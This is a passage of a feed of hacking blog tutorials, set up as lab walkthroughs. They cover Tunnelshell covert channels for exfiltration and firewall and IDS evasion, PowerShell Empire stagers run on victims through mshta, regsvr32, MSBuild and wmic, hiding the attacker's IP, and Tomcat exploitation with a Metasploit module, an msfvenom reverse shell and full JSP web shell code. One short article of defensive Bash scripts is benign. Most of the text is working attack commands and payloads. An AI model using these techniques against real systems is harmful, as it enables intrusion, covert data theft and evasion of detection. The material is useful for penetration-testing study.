<pre class="wp-block-preformatted">sudo ./tunneld</pre>


<p>By default, it sends fragment packet, which reassembles at the destination to evade from firewall and IDS.</p>


<figure class="wp-block-image"></figure>


<p>Now to connect with tunnelshell we need to execute the following command on the server (Attacker’s machine) which will establish a covert channel for data exfiltration.</p>


<p><em>Syntax: ./tunnel -i &lt;session id (0-65535)&gt; -d &lt;delay in sending packets&gt; -s &lt;packet size&gt; -t &lt;tunnel type&gt; -o &lt;protocol&gt; -p &lt;port&gt; -m &lt;ICMP query&gt; -a &lt;ppp interface&gt; &lt;Victim’s IP&gt;</em></p>


<pre class="wp-block-preformatted">./tunnel -t frag 10.10.10.2</pre>


<p><strong>frag:</strong>&nbsp;It uses IPv4 fragmented packets to encapsulate data.&nbsp; When some routers and firewalls (like Cisco routers and default Linux installation) receives fragmented packets without headers for the fourth layer, they permit pass it even if they have a rule that denies it. As you can observe that it is successfully connected to 10.10.10.2 and we are to access the shell of the victim’s machine.</p>


<figure class="wp-block-image"></figure>


<p>As I had said, if you will check the network statics using netstat then you will not observe any process ID for tunnelshell. From the given below image, you can observe that with the help of&nbsp;<strong>ps&nbsp;</strong>command I had checked in process for tunnelshell and then try to check its process id through&nbsp;<strong>netstat</strong>.</p>


<pre class="wp-block-preformatted">ps |grep .tunneld
netstat –ano</pre>


<figure class="wp-block-image"></figure>


<p>Let’s take a look of network traffic generated between 10.10.10.1 (Attacker’s IP) and10. 10.10.2 (Victim’s IP) using Wireshark. The network flow looks generic between both endpoints, but if it monitors properly, then a network administrator could sniff the data packet. As you can observe that Wireshark has captured the covert traffic and sniff the data that was travelling between two endpoint devices.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Covert ICMP Channel</strong></h3>


<p>As we know Ping is the use of ICMP communication that use icmp echo request and icmp echo reply query to establish a connection between two hosts, therefore, execute the below command:</p>


<pre class="wp-block-preformatted">sudo ./tunneld -t icmp -m echo-reply, echo</pre>


<figure class="wp-block-image"></figure>


<p>Now to connect with tunnelshell we need to execute the following command on the server (Attacker’s machine) which will establish a covert channel for data exfiltration.</p>


<pre class="wp-block-preformatted">./tunnel -t icmp -m echo-reply,echo 10.10.10.2</pre>


<p>As you can observe that it is successfully connected to 10.10.10.2 and the attacker is able to access the shell of the victim’s machine.</p>


<figure class="wp-block-image"></figure>


<p>Again, if you will capture the traffic through Wireshark then you will notice the ICMP echo request and reply packet is being travelled between both endpoints. And if you will try to analysis these packets then you will be able to see what kind of payload is travelling as ICMP data.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Covert HTTP Channel</strong></h3>


<p>It establishes a virtual TCP connection without using three-way handshakes. It doesn’t bind any port, so you can use a port already use it by another process, therefore execute the below command:</p>


<pre class="wp-block-preformatted">sudo&nbsp; ./tunneld -t tcp -p 80,2000</pre>


<figure class="wp-block-image"></figure>


<p>Now to connect with tunnelshell we need to execute the following command on the server (Attacker’s machine) which will establish a covert channel for data exfiltration.</p>


<pre class="wp-block-preformatted">./tunnel -t tcp -p 80,2000 10.10.10.2</pre>


<p>As you can observe that it is successfully connected to 10.10.10.2 and again attacker is able to access the shell of the victim’s machine.</p>


<figure class="wp-block-image"></figure>


<p>on other side, if you consider the network traffic then you will notice a tcp communication establish without three-way-handshake between source and destination.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Covert DNS Channel&nbsp;</strong></h3>


<p>To establish DNS covert channel, we need to run UDP tunnel mode on both endpoint machines. Therefore, execute the following command on the victim’s machine:</p>


<pre class="wp-block-preformatted">sudo ./tunneld -t udp -p 53,2000</pre>


<figure class="wp-block-image"></figure>


<p>Similarly, execute following on your (Attacker) machine to connect with a tunnel.</p>


<pre class="wp-block-preformatted">./tunnel -t udp -p 53,2000 10.10.10.2</pre>


<figure class="wp-block-image"></figure>


<p>As you can observe here the DNS malformed packet contains the data travelling between both endpoint machine.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Hiding IP During Pentest using PowerShell Empire (http_hop).</title>
		<link>../../../2024/12/10/hiding-ip-during-pentest-using-powershell-empire-http_hop/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 16:19:50 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8930</guid>

					<description><![CDATA[This is our fourth guide in empire series, in this guide we learn to use hop payload in PowerShell empire. Empire has an inbuilt listener named http_hop which allows us....]]></description>
										<content:encoded><![CDATA[
<p>This is our fourth guide in empire series, in this guide we learn to use hop payload in PowerShell empire. Empire has an inbuilt listener named http_hop which allows us to redirect our traffic to one of our another active listener after getting an agent. Thus, the name hop as it hops the agent from one listener to another in order to redirect traffic.</p>


<p>Similar to Metasploit, the hop listener in empire uses a hop.php file. When you activate the hop listener, it will generate three PHP files that will redirect your existing listener. Place the said files&nbsp;in&nbsp;your jump server (ubuntu) and then set up your stager in according to get the session through the mediator i.e. our hop listener.</p>


<p>In the following&nbsp;image, you can see our Kali’s IP. Now, we will try and take windows session via ubuntu using http_hop payload, in order to hide our own IP, i.e. basically, our http_hop payload will help us (attacker) to hide from the getting caught.</p>


<figure class="wp-block-image"></figure>


<p>Here, in the following&nbsp;image, you can see our ubuntu’s IP too.</p>


<figure class="wp-block-image"></figure>


<p>Now, let’s get started.&nbsp;First, we should have a simple http listener, for that type :</p>


<pre class="wp-block-preformatted">uselistener http
execute</pre>


<figure class="wp-block-image"></figure>


<p>Now, start the http_hop listener by typing :</p>


<pre class="wp-block-preformatted">uselistener http_hop
set RedirectListener http
set Host //192.168.1.111</pre>


<p>Here, we have given RedirectListener i.e. all the traffic from http listener will be directed to&nbsp;the http_hop&nbsp;listener.</p>


<figure class="wp-block-image"></figure>


<p>Executing the above listener will create three files as you can see that in the image above. Transfer these files to /var/www/html location of your&nbsp;Ubuntu&nbsp;as shown in the image below :</p>


<figure class="wp-block-image"></figure>


<p>Now, you can see in the image below we have activated two listeners :</p>


<figure class="wp-block-image"></figure>


<p>Let’s start our stager by typing the following commands :</p>


<pre class="wp-block-preformatted">usestager windows/launcher_bat
set Listener http_hop
execute</pre>


<figure class="wp-block-image"></figure>


<p>Once our bat file is executed in the target PC, we will have our session. Now, if you observe the IP through which we have obtained the session is of&nbsp;Ubuntu&nbsp;and not of windows but we have the access of a&nbsp;Windows&nbsp;PC, similarly, in windows, it will show that the attacking machine is Ubuntu and not kali. Hence our http_hop is effective.</p>


<figure class="wp-block-image"></figure>


<p>In conclusion, the major advantage of&nbsp;the http_hop&nbsp;listener is that it helps an attacker from being identified as on the target PC, as the said listener hides the original IP.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Multiple Ways to Exploiting Network Machine using PowerShell Empire.</title>
		<link>../../../2024/12/10/multiple-ways-to-exploiting-network-machine-using-powershell-empire/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 16:16:48 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<guid isPermaLink="false">../../../index.html?p=8905</guid>

					<description><![CDATA[Exploiting through HTA This attack helps us to exploit windows through .hta. When .hta file is run via mshta.exe it executes as .exe file with similar functionality which lets us....]]></description>
										<content:encoded><![CDATA[
<h3 class="wp-block-heading"><strong>Exploiting through HTA</strong></h3>


<p>This attack helps us to exploit windows through .hta. When .hta file is run via mshta.exe it executes as .exe file with similar functionality which lets us hack our way through.</p>


<p>To run type&nbsp;</p>


<pre class="wp-block-preformatted">./empire</pre>


<p>According to the workflow, firstly, we have to create a listener to listen to our local machine. Type the following command:</p>


<pre class="wp-block-preformatted">listeners</pre>


<p>After running the above command, it will say that “no listeners are currently active” but don’t worry, we are into the listener interface now.&nbsp; So in this listener interface, type :</p>


<pre class="wp-block-preformatted">uselistener http
set Host http://192.168.1.107
execute</pre>


<p>Now that a listener is created, type ‘back’ to go in listener interface to create an exploit. For this, type :</p>


<pre class="wp-block-preformatted">usestager windows/hta
set Listener http
set OutFile /root/1.hta
execute</pre>


<figure class="wp-block-image"></figure>


<p>Running the above commands will create a .hta file to be used as malware. Start the python server using the following command, in order to share our .hta file:</p>


<pre class="wp-block-preformatted">python -m SimpleHTTPServer 8080</pre>


<figure class="wp-block-image"></figure>


<p>As the python server is up and running, type the following command in victims’ command prompt to execute our malicious file:</p>


<pre class="wp-block-preformatted">mshta.exe http://192.168.1.107:8080/1.hta</pre>


<figure class="wp-block-image"></figure>


<p>The moment above command is executed you will have your session, to access the session type :</p>


<pre class="wp-block-preformatted">interact XDGM6HLE
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploiting through MSBuild.exe</strong></h3>


<p>Our next exploit is via MSBuild.exe, which will let you have a remote session of windows using an XML file. To know in details about this attack please click&nbsp;<a href="https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/">here</a>. And to use this exploit type:</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute</pre>


<p>This creates a listener, type ‘back’ to go in listener interface to create an exploit. For this, type :</p>


<pre class="wp-block-preformatted">usestager windows/launcher_xml
set Listener http
execute</pre>


<figure class="wp-block-image"></figure>


<p>Now, an xml file is created in /tmp. Copy this file in victims’ PC (inside Microsoft.NET\Framework\v4.0.30319\) and run it typing combination of following commands:</p>


<pre class="wp-block-preformatted">cd C:\Windows\Microsoft.NET\Framework\v4.0.30319\
MSBuild.exe launcher.xml</pre>


<figure class="wp-block-image"></figure>


<p>So, this way you will have your session, to access the said session type :</p>


<pre class="wp-block-preformatted">interact A8H14C7L
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploiting through regsvr32</strong></h3>


<p>Our next method is exploiting through regsvr32. To know in detail about this attack, do click&nbsp;<a href="https://www.hackingarticles.in/bypass-application-whitelisting-using-regsrv32-exe-multiple-methods/">here</a>. As always, we have to create a listener first to listen to our local machine. Type the following command:</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute</pre>


<p>Now that a listener is created, type ‘back’ to go in listener interface to create an exploit. For this, type:</p>


<pre class="wp-block-preformatted">usestager windows/launcher_sct
set Listener http
execute</pre>


<figure class="wp-block-image"></figure>


<p>This will create a .sct file in /tmp. Share this file to victim’s PC using the python server and then run this file in a run window of victims’ PC by typing the following command:</p>


<pre class="wp-block-preformatted">regsvr32.exe /u /n /s /i:http//192.168.1.107:8080/launcher.sct scrobj.dll</pre>


<figure class="wp-block-image"></figure>


<p>Thus, you will have an active session. To access the session type:</p>


<pre class="wp-block-preformatted">interact &lt;session name&gt;
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploiting through XSL</strong></h3>


<p>XSL is a language will help you format data, this also describes how web server will interact with using XML. Our next method of attack with empire is by exploiting .xsl file. &nbsp;For this method lets activate our listener first by typing :</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute</pre>


<p>As the listener is up and running, create your exploit :</p>


<pre class="wp-block-preformatted">usestager windows/launcher_xsl
set Listener http
execute
</pre>


<figure class="wp-block-image"></figure>


<p>This way .xsl file is created. Now run the python server from the folder where the .xsl file is created as shown in the image below :</p>


<pre class="wp-block-preformatted">cd /tmp
python -m SimpleHTTPServer 8080</pre>


<figure class="wp-block-image"></figure>


<p>Now execute the following command in the command prompt of your victim:</p>


<pre class="wp-block-preformatted">wmic process get brief /format:"http://192.168.1.107:8080/launcher.xsl"</pre>


<figure class="wp-block-image"></figure>


<p>Running above will give a session, to access the session type :</p>


<pre class="wp-block-preformatted">interact &lt;session name&gt;
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploiting through Visual Basic script</strong></h3>


<p>Our next method is to create a malicious VBS file and exploiting our victim through it. Like always, let’s create a listener first.</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute</pre>


<p>Now, to create our malicious .vbs file type :</p>


<pre class="wp-block-preformatted">usestager windows/launcher_vbs
set Listener http
execute</pre>


<figure class="wp-block-image"></figure>


<p>Next step is to start the python server by typing:</p>


<pre class="wp-block-preformatted">python -m SimpleHTTPServer 8080</pre>


<figure class="wp-block-image"></figure>


<p>Once the .vbs file is shared through the python server and executed in the victim’s PC you will have your session and just like before to access the session type :</p>


<pre class="wp-block-preformatted">interact &lt;session name&gt;
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Exploiting through a bat file</strong></h3>


<p>In this method, we will exploit through a .bat file. Like our previous exploits, this time too, let’s create a listener. For this, type:</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute
back</pre>


<p>The above commands will create a listener for you. Let’s create our .bat file using the following command :</p>


<pre class="wp-block-preformatted">usestager windows/launcher_bat
use Listener http
set OutFile /root/1.bat
execute</pre>


<figure class="wp-block-image"></figure>


<p>As shown, the above commands will create a .bat file. Start up the python server by using the following command to allow you to share your .bat file on your victim’s pc.</p>


<pre class="wp-block-preformatted">python -m SimpleHTTPServer 8080</pre>


<figure class="wp-block-image"></figure>


<p>Once you run the .bat file, a session will activate. To access the session type:</p>


<pre class="wp-block-preformatted">interact &lt;session name&gt;
sysinfo</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Multi_launcher</strong></h3>


<p>This is our last method of this post. It can be used on various platforms such as Windows, Linux, etc. again, even for this method, create a listener:</p>


<pre class="wp-block-preformatted">listeners
uselistener http
set Host http://192.168.1.107
execute</pre>


<p>Then type following commands for creating your malicious file:</p>


<pre class="wp-block-preformatted">usestager multi/launcher
set Listener http
execute</pre>


<figure class="wp-block-image"></figure>


<p>Once you hit enter after the above commands, it will give you a code. Copy this code and paste it in the command prompt of the victim and hit enter. As soon as you hit enter, you will have activated a session. To access the session, type:</p>


<pre class="wp-block-preformatted">interact &lt;session name&gt;
sysinfo</pre>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Simple Bash Scripts For Cybersecurity, Enhancing Your Security Arsenal.</title>
		<link>../../../2024/12/10/simple-bash-scripts-for-cybersecurity-enhancing-your-security-arsenal/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 16:07:31 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8901</guid>

					<description><![CDATA[Bash scripting can be a powerful tool in a cybersecurity analyst’s repertoire, offering automation and efficiency in handling various security tasks. In this article, we’ll explore a few Bash scripts....]]></description>
										<content:encoded><![CDATA[
<figure class="wp-block-image"></figure>


<p id="2164">Bash scripting can be a powerful tool in a cybersecurity analyst’s repertoire, offering automation and efficiency in handling various security tasks. In this article, we’ll explore a few Bash scripts that can be valuable for common cybersecurity activities.</p>


<h1 class="wp-block-heading" id="10e3">1.Network Scanner using Nmap</h1>


<pre class="wp-block-preformatted">#!/bin/bash<br><br># Check if Nmap is installed<br>if ! command -v nmap &amp;&gt; /dev/null; then<br>  echo "Error: Nmap is not installed. Please install Nmap and try again."<br>  exit 1<br>fi<br><br>echo "Starting Nmap Scan..."<br>nmap -sP 192.168.1.0/24   # Replace with your target IP range<br><br>echo "Scan complete."</pre>


<p id="fb37">This script utilizes Nmap to conduct a network scan, providing a quick overview of active hosts on a specified IP range. Ensure to replace the IP range with your network of interest. Scan only networks that you have permission.</p>


<h1 class="wp-block-heading" id="c582">2. Check For Open Ports on a Host</h1>


<pre class="wp-block-preformatted">#!/bin/bash<br><br><br>#!/bin/bash<br><br># Script to check open ports on a host<br><br>echo "Enter target IP address or hostname:"<br>read target_ip<br><br>echo "=== Open Ports on $target_ip ==="<br>nc -zv $target_ip 1-1023 2&gt;&amp;1 | grep succeeded<br><br># Adjust the port range (1-1023) based on your requirements</pre>


<p id="f286">This script uses nc (netcat) to check for open ports within the specified range (1-1023 in this example) on the target IP address or hostname. You can customize the port range based on your specific needs.</p>


<h1 class="wp-block-heading" id="2042">3. Script to Check File integrity Using md5sum</h1>


<pre class="wp-block-preformatted">#!/bin/bash<br><br># Script to check file integrity using md5sum<br><br>echo "Enter file path:"<br>read file_path<br><br>original_checksum=$(md5sum "$file_path" | awk '{print $1}')<br><br>echo "Original Checksum: $original_checksum"<br><br>echo "Performing file integrity check..."<br>current_checksum=$(md5sum "$file_path" | awk '{print $1}')<br><br>if [ "$original_checksum" == "$current_checksum" ]; then<br>  echo "File integrity is intact."<br>else<br>  echo "Warning: File integrity check failed!"<br>fi</pre>


<p id="681f">This script calculates the MD5 checksum of a specified file, allowing for a quick integrity check. Any deviation from the original checksum raises a warning.</p>


<h1 class="wp-block-heading" id="39c0">4.Script to Monitor User Account Activity</h1>


<pre class="wp-block-preformatted">#!/bin/bash<br>echo "=== User Account Activity ==="<br>echo "Enter username:"<br>read username<br><br># Check user activity in system logs<br>echo "=== Recent Logins ==="<br>last | grep $username<br><br># Check sudo command usage<br>echo "=== Sudo Command Usage ==="<br>cat /var/log/auth.log | grep sudo | grep $username<br><br># Check for changes to user's home directory<br>echo "=== User Home Directory Changes ==="<br>auditctl -w /home/$username</pre>


<p id="5859">This script enables monitoring of user account activity by displaying login history for a specified username,sudo command usage and users home directory changes.</p>


<p id="2141">Customize these scripts based on your specific requirements and always ensure you have the necessary permissions. These scripts serve as a foundation, offering a starting point for further adaptation to your unique environment and security policies. Incorporating such scripts into your cybersecurity toolkit can significantly enhance your ability to manage and analyze security-related tasks efficiently. Bash is a perfect beginner friendly language, you can learn it by using linux terminal.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Apache Tomcat Penetration Testing</title>
		<link>../../../2024/11/18/apache-tomcat-penetration-testing/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 11:04:37 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8891</guid>

					<description><![CDATA[Apache Tomcat, developed by the Apache Software Foundation, is a widely used web server and servlet container. Originally, it served as a demonstration platform for Java Servlet and JavaServer Pages....]]></description>
										<content:encoded><![CDATA[
<p>Apache Tomcat, developed by the Apache Software Foundation, is a widely used web server and servlet container. Originally, it served as a demonstration platform for Java Servlet and JavaServer Pages (JSP) technologies, which are used in Java web applications. As time passed, Tomcat expanded its capabilities to support additional Java web technologies.</p>


<p>A notable feature of Tomcat is its support for deploying web applications using WAR (Web Application Archive) files. These files bundle together all the components of a web application, including code, pages, and files, making deployment simpler. Tomcat allows users to upload and run these WAR files, enabling them to host their applications on the internet.</p>


<p>In addition to WAR files, Tomcat also supports the deployment of JSP pages. JSP is a technology that allows developers to create dynamic web pages using Java. Tomcat can execute these JSP pages, making it versatile for hosting a wide range of web applications.</p>


<p>By default, Tomcat supports the use of WAR files and JSP pages. However, administrators can configure settings to ensure security and control over file uploads, enhancing the overall safety of the server.</p>


<h3 class="wp-block-heading"><strong>Table of Contents</strong></h3>


<ul class="wp-block-list">
<li>Lab Setup</li>


<li>Installation</li>


<li>Configuration</li>


<li>Enumeration</li>


<li>Exploitation using Metasploit Framework</li>


<li>Exploiting Manually (Reverse shell)</li>


<li>Exploiting Manually (Web shell)</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Lab Setup</h3>


<p>In this article, we are going to setup the Tomcat server on the ubuntu machine and exploit the file upload vulnerability. Following are the machines:</p>


<p><strong>Target Machine:</strong>&nbsp;Ubuntu (192.168.1.5)</p>


<p><strong>Attacker Machine:</strong>&nbsp;Kali Linux (192.168.1.7)</p>


<h3 class="wp-block-heading">Installation</h3>


<p>Apache Tomcat relies on Java, meaning you’ll need to have the Java JDK installed on your server. You can install it by running the command below:</p>


<p>apt install openjdk-11-jdk</p>


<figure class="wp-block-image"></figure>


<p>Add a new user by the name&nbsp;<strong>tomcat</strong>&nbsp;using the following command:</p>


<p>useradd -m -U -d /opt/tomcat -s /bin/<strong>false</strong> tomcat</p>


<figure class="wp-block-image"></figure>


<p>Download the Tomcat&nbsp;<strong>tar.gz</strong>&nbsp;file from the official website.</p>


<figure class="wp-block-image"></figure>


<p>Download the latest version from the website into the ubuntu machine and extract the downloaded files.</p>


<p>wget https://archive.apache.org/dist/tomcat/tomcat-10/v10.0.20/bin/apache-tomcat-10.0.20.tar.gz</p>


<p>tar -xvf apache-tomcat-10.1.20.tar.gz</p>


<figure class="wp-block-image"></figure>


<p>Move the extracted folder in the&nbsp;<strong>/opt/tomcat</strong>&nbsp;directory, give the ownership permissions to tomcat user and set the execution permission on binary files.</p>


<p>mv apache-tomcat-10.1.20/* /opt/tomcat</p>


<p>chown -R tomcat: /opt/tomcat</p>


<p>sh -c &#8216;chmod +x /opt/tomcat/bin/*.sh &#8216;</p>


<figure class="wp-block-image"></figure>


<p>Create a&nbsp;<strong>tomcat.service</strong>&nbsp;file in the&nbsp;<strong>/etc/systemd/system/</strong>&nbsp;directory and add the following content in the file:</p>


<p>[Unit]</p>


<p>Description=Apache Tomcat</p>


<p>After=network.target</p>


<p>[Service]</p>


<p>Type=forking</p>


<p>User=tomcat</p>


<p>Group=tomcat</p>


<p>Environment=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64</p>


<p>Environment=CATALINA_PID=/opt/tomcat/tomcat.pid</p>


<p>Environment=CATALINA_HOME=/opt/tomcat</p>


<p>Environment=CATALINA_BASE=/opt/tomcat</p>


<p>Environment=&#8221;CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC&#8221;</p>


<p>ExecStart=/opt/tomcat/bin/startup.sh</p>


<p>ExecStop=/opt/tomcat/bin/shutdown.sh</p>


<p>ExecReload=/bin/kill $MAINPID</p>


<p>RemainAfterExit=yes</p>


<p>[Install]</p>


<p>WantedBy=multi-user.target</p>


<figure class="wp-block-image"></figure>


<p>Reload the systemd daemon to apply the changes using the following command:</p>


<p>systemctl daemon-reload</p>


<p>&nbsp;Also, enable the tomcat service to start at system reboot.</p>


<p>systemctl enable &#8211;now tomcat</p>


<p>Checking the status of the tomcat server:</p>


<p>systemctl status tomcat</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Configuration</h3>


<p>After the installation is complete, its time to configure the Tomcat server.</p>


<p>To create admin user password, make changes in the following file:</p>


<p>nano /opt/tomcat/conf/tomcat-users.xml</p>


<p>Add the following code above the&nbsp;<strong>&lt;/tomcat-users&gt;</strong>:</p>


<p>&lt;role rolename=&#8221;admin-gui&#8221;/&gt;</p>


<p>&lt;role rolename=&#8221;manager-gui&#8221;/&gt;</p>


<p>&lt;user username=&#8221;admin&#8221; password=&#8221;password&#8221; roles=&#8221;admin-gui,manager-gui&#8221;/&gt;</p>


<figure class="wp-block-image"></figure>


<p>To enable remote access for Tomcat Manager, make the following changes in the&nbsp;<strong>context.xml</strong>&nbsp;file present in the&nbsp;<strong>manager&nbsp;</strong>and&nbsp;<strong>host-manager</strong>&nbsp;directory.</p>


<p>nano /opt/tomcat/webapps/manager/META-INF/context.xml</p>


<p>nano /opt/tomcat/webapps/host-manager/META-INF/context.xml</p>


<p>Remove the following line from both the above files as shown below:</p>


<figure class="wp-block-image"></figure>


<figure class="wp-block-image"></figure>


<p>Once done with the changes, restart the tomcat service in ubuntu.</p>


<p>systemctl restart tomcat</p>


<figure class="wp-block-image"></figure>


<p>Observe that the Tomcat server is up and running on port 8080 in the ubuntu machine.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Enumeration</h3>


<p>After the installation and configuration is complete, now starting the enumeration phase.</p>


<p>Using Kali linux as an attacker machine, initial enumeration can be performed using nmap.</p>


<p>nmap -p 8080 -sV 192.168.1.5</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploitation using Metasploit Framework</h3>


<p>First trying to exploit the functionality using&nbsp;<strong>Metasploit</strong>&nbsp;as an exploit is already available for the tomcat file upload vulnerability. The exploit used here is&nbsp;<strong>exploit/multi/http/tomcat_mgr_upload</strong>.</p>


<p>Inside Metasploit, type the below given commands to run the exploit:</p>


<p>use exploit/multi/http/tomcat_mgr_upload</p>


<p>set rhosts 192.168.1.5</p>


<p>set report 8080</p>


<p>set httpusername admin</p>


<p>set httppassword password</p>


<p>show targets</p>


<p>set target 2</p>


<p>set payload linux/x86/meterpreter_reverse_tcp</p>


<p>exploit</p>


<figure class="wp-block-image"></figure>


<p>From above it can be seen that a reverse shell is obtained and the commands can be executed using the&nbsp;<strong>meterpreter</strong>&nbsp;shell.</p>


<h3 class="wp-block-heading">Exploiting Manually (Reverse Shell)</h3>


<p>The above exploitation process can also be performed manually. In order to do that we first need to create a&nbsp;<strong>.war</strong>&nbsp;file using&nbsp;<strong>msfvenom</strong>.</p>


<p>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.1.7 lport=1234 -f war &gt; shell.war</p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>shell.war</strong>&nbsp;file has been created, we need to upload that file inside tomcat manager app.</p>


<p>To access the&nbsp;<strong>Manager App</strong>, it will require a basic authentication. The username can be given as&nbsp;<strong>admin</strong>&nbsp;and password as&nbsp;<strong>password</strong>&nbsp;to access the manager app.</p>


<figure class="wp-block-image"></figure>


<p>After login into the&nbsp;<strong>Manager App</strong>, upload the above created&nbsp;<strong>shell.war</strong>&nbsp;file in the&nbsp;<strong>War file to deploy functionality</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Once the file is uploaded it can be seen in the uploaded files section.</p>


<figure class="wp-block-image"></figure>


<p>Before accessing the uploaded file, start a&nbsp;<strong>netcat</strong>&nbsp;listener on port&nbsp;<strong>1234</strong>.</p>


<p>rlwrap nc -lvnp 1234</p>


<p>Click on the&nbsp;<strong>/shell</strong>&nbsp;to access the file to obtain a reverse shell.</p>


<figure class="wp-block-image"></figure>


<p>The reverse shell is obtained at port 1234.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploiting Manually (Web Shell)</h3>


<p>To get a web shell, a&nbsp;<strong>.war</strong>&nbsp;file can be used which will contain&nbsp;<strong>.jsp</strong>&nbsp;files such that after the&nbsp;<strong>.war</strong>&nbsp;file is uploaded to the server the webshell is obtained.</p>


<p>To create a .war containing the .jsp files java is required in the kali linux machine.</p>


<p>apt install openjdk-11-jdk</p>


<figure class="wp-block-image"></figure>


<p>Now, create a&nbsp;<strong>webshell</strong>&nbsp;directory, within it we will place the&nbsp;<strong>index.jsp</strong>&nbsp;file.</p>


<p>mkdir webshell</p>


<p>cd webshell</p>


<p>nano index.jsp</p>


<figure class="wp-block-image"></figure>


<p>Copy the following code in the&nbsp;<strong>index.jsp</strong>&nbsp;file for the web shell.</p>


<p>&lt;FORM METHOD=GET ACTION=&#8217;index.jsp&#8217;&gt;</p>


<p>&lt;INPUT name=&#8217;cmd&#8217; type=text&gt;</p>


<p>&lt;INPUT type=submit value=&#8217;Run&#8217;&gt;</p>


<p>&lt;/FORM&gt;</p>


<p>&lt;%@ page import=&#8221;java.io.*&#8221; %&gt;</p>


<p>&lt;%</p>


<p>String cmd = request.getParameter(&#8220;cmd&#8221;);</p>


<p>String output = &#8220;&#8221;;</p>


<p><strong>if</strong>(cmd != <strong>null</strong>) {</p>


<p>String s = <strong>null</strong>;</p>


<p><strong>try</strong> {</p>


<p>Process p = Runtime.getRuntime().exec(cmd,<strong>null</strong>,<strong>null</strong>);</p>


<p>BufferedReader sI = <strong>new</strong> BufferedReader(<strong>new</strong></p>


<p>InputStreamReader(p.getInputStream()));</p>


<p><strong>while</strong>((s = sI.readLine()) != <strong>null</strong>) { output += s+&#8221;&lt;/br&gt;&#8221;; }</p>


<p>} <strong>catch</strong>(IOException e) { e.printStackTrace(); }</p>


<p>}</p>


<p>%&gt;</p>


<p>&lt;pre&gt;&lt;%=output %&gt;&lt;/pre&gt;</p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>index.jsp</strong>&nbsp;file is created, the package can now be created after converting the directory into a&nbsp;<strong>.war</strong>&nbsp;file.</p>


<p>jar -cvf ../webshell.war *</p>


<figure class="wp-block-image"></figure>


<p>After the webshell.war file is created, uploading it in the deploy functionality.</p>


<figure class="wp-block-image"></figure>


<p>The&nbsp;<strong>index.jsp</strong>&nbsp;page can be accessed within the uploaded webshell directory and a webshell is obtained.</p>


<figure class="wp-block-image"></figure>


<figure class="wp-block-image"></figure>


<p>An alternative way to do the above manual exploitation can by downloading the&nbsp;<strong>cmd.jsp</strong>&nbsp;file and creating a&nbsp;<strong>webshell.war</strong>&nbsp;file using&nbsp;<strong>zip</strong>.</p>


<p>The webshell jsp file can be downloaded from here:</p>


<p><a href="https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/jsp">https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/jsp</a></p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>cmd.jsp</strong>&nbsp;file is downloaded, a&nbsp;<strong>revshell.war</strong>&nbsp;file can be created using the following command:</p>


<p>zip -r revshell.war cmd.jsp</p>


<figure class="wp-block-image"></figure>


